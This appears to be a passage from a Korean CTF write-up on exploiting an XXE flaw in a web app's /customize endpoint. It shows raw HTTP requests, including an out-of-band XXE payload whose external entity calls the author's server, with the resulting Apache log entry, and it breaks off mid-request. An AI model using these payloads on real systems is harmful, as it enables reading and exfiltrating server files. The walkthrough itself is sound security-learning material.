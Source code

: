 ```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 33
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

{"color" : "red", "size": "20px"}


// Response
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 31 Jan 2021 11:52:00 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 70
Connection: close
Vary: Cookie

Start tag expected, '<' not found, line 1, column 1 (<string>, line 1)
```
여기서 Content-Type을 `application/xml`로 바꾸서 보내주면 XML Parsing 에러가 나는 것을 볼 수 있습니다. 이 말은 XML이 작동 중이며 XXE 공격이 가능하다는 소리입니다. 일단 색상과 사이즈의 크기는 응답에 포함되지 않기 때문에 일반적인 XXE 기법을 이용할 순 없습니다. 그래서 `Out-of-band XXE` 기법을 이용하기로 했고, 해당 기법을 쓸려면 일단 DTD를 로드 할 수 있는 지 확인해야합니다.<br>

```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 175
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE pocas [<!ENTITY xxe SYSTEM "http://141.164.52.207/test">]>
<pocas>
    <color>&xxe;</color>
    <size>40px</size>
</root>


// Aapache Log
207.180.200.166 - - [31/Jan/2021:12:14:10 +0000] "GET /test HTTP/1.0" 404 456 "-" "-"
```
확인을 해보니 잘 되는 것을 볼 수 있습니다.<br>

```
// Request
POST /customize HTTP/1.1
Host: 207.180.200.166:5000
Content-Length: 170
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Content-Type: application/xml
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZmUifQ.YBaKbw.aHQ999GYFVmDPqp_8r4y-rxraOw
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
```